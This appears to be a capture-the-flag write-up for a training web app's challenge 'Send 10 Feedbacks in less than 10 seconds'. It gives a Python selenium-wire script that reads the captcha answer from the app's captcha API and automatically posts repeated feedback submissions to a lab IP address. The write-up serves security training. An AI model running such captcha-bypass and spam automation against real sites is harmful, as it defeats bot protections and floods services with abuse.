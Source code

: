 ## Send 10 Feedbacks Through the Feedback Form in less than 10 seconds
To solve this challenge, the process and the calling of the API needs to be first explored.

When submitting a feedback through the form, a captcha check is attached at the end. However, this captcha can be easily broken as it isn't an image or puzzle-based captcha, but rather a text math problem.

To solve this challenge, I'm using python's selenium-wire and webdriver_manager to start an instance of Chrome to execute my commands, together with requests and other libraries needed.

		import  requests
		from  requests.api  import  request
		from  seleniumwire  import  webdriver
		from  webdriver_manager.chrome  import  ChromeDriverManager
		import  time
		import  json
After that's done, all we need to do is to specify the URL of the contact form and start the webdriver to launch an instance of Chrome (and start a timer as well)

		urlpage  =  'http://192.168.235.129:3000/#/contact'
		driver  =  webdriver.Chrome(ChromeDriverManager().install())
		start  =  time.time()
We then start a for loop to iterate through each time a form submits, getting the website first, waiting a few milliseconds for it to render (since it is built from Angular) and then getting a captcha GET request with the requests library in order to get the answer for the captcha question. (Then end timer and print resulting end time)

		for  i  in  range (11):
			driver.get("http://192.168.235.129:3000/#/contact")
			time.sleep(0.1)
			arr  = []
			for  request  in  driver.requests:
				if  request.url  ==  "http://192.168.235.129:3000/rest/captcha/":
				arr.append(json.loads(request.response.body))
			answer  =  arr[-1]
			requests.post("http://192.168.235.129:3000/api/Feedbacks/", data={"captchaId":answer.get('captchaId'),"captcha":answer.get('answer'),"comment":"aaaa (anonymous)","rating":2})
	
		end  =  time.time()
		print(end-start)
Full stuff.py file:

	# import libraries

	import  requests
	from  requests.api  import  request
	from  seleniumwire  import  webdriver
	from  webdriver_manager.chrome  import  ChromeDriverManager
	import  time
	import  json

	# specify the url
	urlpage  =  'http://192.168.235.129:3000/#/contact'
	driver  =  webdriver.Chrome(ChromeDriverManager().install())
	start  =  time.time()

	for  i  in  range (11):
		driver.get("http://192.168.235.129:3000/#/contact")
		time.sleep(0.1)
		arr  = []
		for  request  in  driver.requests:
			if request.url  ==  "http://192.168.235.129:3000/rest/captcha/":
			arr.append(json.loads(request.response.body))
		answer  =  arr[-1]
		requests.post("http://192.168.235.129:3000/api/Feedbacks/", data={"captchaId":answer.get('captchaId'),"captcha":answer.get('answer'),"comment":"aaaa (anonymous)","rating":2})

	end  =  time.time()
	print(end-start)
